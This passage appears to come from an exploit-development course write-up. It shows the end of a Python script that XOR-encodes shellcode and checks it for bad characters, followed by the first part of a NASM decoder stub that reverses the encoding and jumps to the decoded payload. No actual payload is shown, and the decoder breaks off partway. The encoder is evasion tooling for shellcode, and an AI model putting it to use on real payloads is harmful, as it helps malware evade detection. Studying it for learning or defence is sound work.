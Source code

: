 ```python

	encoded_shellcode2 += r"\x"
	encoded_shellcode2 += "%02x" % (xorred)

# check for bad characters in encoded shellcode 
for badchar in badchars:
	if badchar.lower() in encoded_shellcode2:
		print r"Bad character {} in Shellcode".format(badchar)
		sys.exit()
	
print 'Encoded Opt_1 : ', encoded_shellcode2
print 'Encoded Opt_2 : ', encoded_shellcode.rstrip(',')
```
Lets run the encoder and produce the encoded shellcode.
![XNRR3AX Encoder](/assets/asn-4-encoder-out.PNG)

### XNRR3AX Decoder
Now that we have our encoder, we need to write a decoder stub which will decode the encoded shellcode and pass control to it. Let us look at the stages of decoding.
1. Reverse the Additive XOR operation.
2. Rotate to Left the whole shellcode 3 times.
3. XOR each byte of the original shellcode with 0xAA.
4. Apply NOT operation on each byte of the shellcode.
5. Jump to decoded shellcode.

Without further ado, let us look at the decoder implementation.
```nasm
;
; Author 	: RIZAL MUHAMMED (UB3RSiCK)
; Desc		: XNRR3AX Decoder
; Note		: XORRED WITH 0XAA	
; Filename	: xnrr3ax-decoder.nasm

; 1) Reverse Additive XOR
; 2) Rotate Left 3 times
; 3) Apply XOR, NOT operation on each byte
; 4) Jump to decoded shellcode 


global _start

section .text
	_start:
		
		jmp short get_shellcode_addr
	
		shellcode_addr:
			
			pop esi				; pointer to shellcode 

			; shift left 3 places the whole shellcode 
			
			xor eax, eax
			xor ebx, ebx
			xor ecx, ecx			; clear registers needed
			xor edx, edx
			
			push esi			; esi has pointer to shellcode 
			pop edi				; clears edi and saves pointer to shellcode in edi
```